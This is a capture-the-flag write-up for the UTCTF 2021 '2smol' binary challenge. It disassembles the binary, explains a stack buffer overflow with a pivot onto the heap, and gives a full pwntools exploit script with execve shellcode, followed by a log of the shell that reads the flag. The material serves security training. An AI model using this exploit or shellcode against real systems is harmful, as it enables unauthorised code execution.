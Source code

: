 ```yaml
---
layout: post
title: "[UTCTF 2021] 2smol"
author: Green-Avocado
---
```


## Challenge

I made this binary 2smol.

nc pwn.utctf.live 9998

by `hukc`

### Mitigations:

No RELRO,No Canary found,NX disabled,No PIE,No RPATH,No RUNPATH,Symbols,No,0,0,smol

### Functions:

```asm
[0x00401000]> afl
0x00401000    1 13           entry0
0x0040100d    1 22           main
0x00401023    1 33           loc._read
```

#### Disassembled main:

```asm
[0x00401000]> pdf @ main
            ; CALL XREF from entry0 @ 0x401000
┌ 22: int main (int argc, char **argv, char **envp);
│           ; var int64_t var_8h @ rbp-0x8
│           0x0040100d      55             push rbp
│           0x0040100e      4889e5         mov rbp, rsp
│           0x00401011      4883ec08       sub rsp, 8
│           0x00401015      488d7df8       lea rdi, [var_8h]           ; int64_t arg1
│           0x00401019      e805000000     call loc._read
│           0x0040101e      4889ec         mov rsp, rbp
│           0x00401021      5d             pop rbp
└           0x00401022      c3             ret
```

The `main` function calls `loc._read` and passes a pointer to `$rbp-0x8`, then returns.

#### Disassembled read:

```asm
[0x00401000]> pdf @ loc._read
            ; CALL XREF from main @ 0x401019
┌ 33: loc._read (int64_t arg1);
│           ; arg int64_t arg1 @ rdi
│           0x00401023      55             push rbp
│           0x00401024      4889e5         mov rbp, rsp
│           0x00401027      4883ec08       sub rsp, 8
│           0x0040102b      4889fe         mov rsi, rdi                ; arg1
│           0x0040102e      bf00000000     mov edi, 0
│           0x00401033      ba00020000     mov edx, 0x200              ; 512
│           0x00401038      b800000000     mov eax, 0
│           0x0040103d      0f05           syscall
│           0x0040103f      4889ec         mov rsp, rbp
│           0x00401042      5d             pop rbp
└           0x00401043      c3             ret
```

The `loc._read` function executes a syscall, `read(0, *buf, 0x200)`, where `*buf` is the pointer to a local variable in main.
As this will read more characters than the buffer size, we can overwrite the stored `$rbp` and `$rsp`, and 0x190 bytes after that.

## Solution

As NX is disabled, we can write and execute arbitrary code to memory.

I used code from [shellstorm](http://shell-storm.org/shellcode/files/shellcode-806.php).

```asm
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-- /home/user/Documents/ctf/2smol/smol
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x /home/user/Documents/ctf/2smol/smol
0x0000000000402000 0x0000000000403000 0x0000000000000000 rw- [heap]
0x00007ffff7ff9000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
```

Both the heap and stack should have `rwx` permissions.
My machine prevents this, but this has been disabled to test the exploit.
Stack addresses are randomized at runtime, however the heap is not.
We can shift the location of our callstack onto the heap to write and execute our shellcode.

On the first read, we fill the buffer with 0x8 bytes, then we overwrite the saved `$rbp` with a location on the heap, and we overwrite the return address to point at the instruction before `loc._read` is called.
This allows us to call read again and write our shellcode to the heap.

On the second read, we fill the buffer, base pointer, and return address with anything.
Then we overwrite the return address to point the location our shell code will be place, followed by our shellcode.

Sending these payloads to the server gives us a shell where we can find and read the flag file.

## Exploit

```py
#!/usr/bin/env python3

from pwn import *

#p = process("./smol")
p = remote('pwn.utctf.live', 9998)

shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

main = 0x0040100d
stack = 0x402500

context.terminal = ['tmux', 'splitw', '-h']

#gdb.attach(p, '''
#b*0x40101e
#''')

payload1 = b''
payload1 += b'A' * 0x8 #padding
payload1 += p64(stack) #rbp
payload1 += p64(main + 8) #rip
payload1 += b'B' * (0x200 - 0x8 * 3)

payload2 = b''
payload2 += b'C' * 0x8 #padding
payload2 += b'D' * 0x8 #rbp
payload2 += p64(stack+0x10) #rip
payload2 += shellcode

p.send(payload1)
p.send(payload2)

p.interactive()
```

```
-> % ./exploit.py                     
[+] Opening connection to pwn.utctf.live on port 9998: Done
[*] Switching to interactive mode
$ whoami
srop
$ ls
flag.txt
$ cat flag.txt
utflag{srop_xd}
```

